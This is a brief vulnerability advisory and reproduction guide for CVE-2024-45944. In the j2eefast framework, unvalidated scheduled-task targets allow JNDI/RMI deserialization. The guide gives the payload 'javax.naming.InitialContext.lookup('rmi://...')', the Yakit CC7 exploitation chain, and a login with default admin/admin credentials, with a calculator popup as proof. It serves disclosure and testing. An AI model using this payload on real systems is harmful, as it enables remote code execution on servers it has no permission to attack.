

# CVE-2024-45944

## Vulnerability Analysis

The vulnerability is located at `com.j2eefast.framework.quartz.utils.JobInvokeUtil#invokeMethod`.

The scheduled task directly retrieves the provided `beanName`, `methodName`, and `methodParams` and executes them without proper validation, which leads to the possibility of executing a `lookup` to trigger RMI deserialization vulnerabilities.

## Vulnerability Reproduction

After setting up the environment, use the Yakit tool, which can be found at [yaklang/yakit: Cyber Security ALL-IN-ONE Platform (github.com)](https://github.com/yaklang/yakit).

Launch Yakit, create a new temporary project, and enable the reverse shell server from the toolbox on the left. In the reverse shell server payload configuration, select the exploitation chain `CC7/raw_cmd` and choose the `calc` command for testing. After generating, copy RMI反连地址(means 'RMI reverse shell address').

The locally generated RMI reverse shell address is `rmi://127.0.0.1:8085/daNLzhBf`, which is concatenated with `javax.naming.InitialContext.lookup('')`, resulting in `javax.naming.InitialContext.lookup('rmi://127.0.0.1:8085/daNLzhB')`.

After setting up the project, log in to the backend using `admin/admin`, then navigate to 系统工具/定时任务(means 'System Tools / Scheduled Tasks'). Create a new task as shown in the image below, where the task name can be anything. For 调用目标(means 'call target'), fill in the concatenated address from above, and set the Cron expression to ensure it is triggered.

The calculator has successfully popped up, indicating that the exploit was successful.

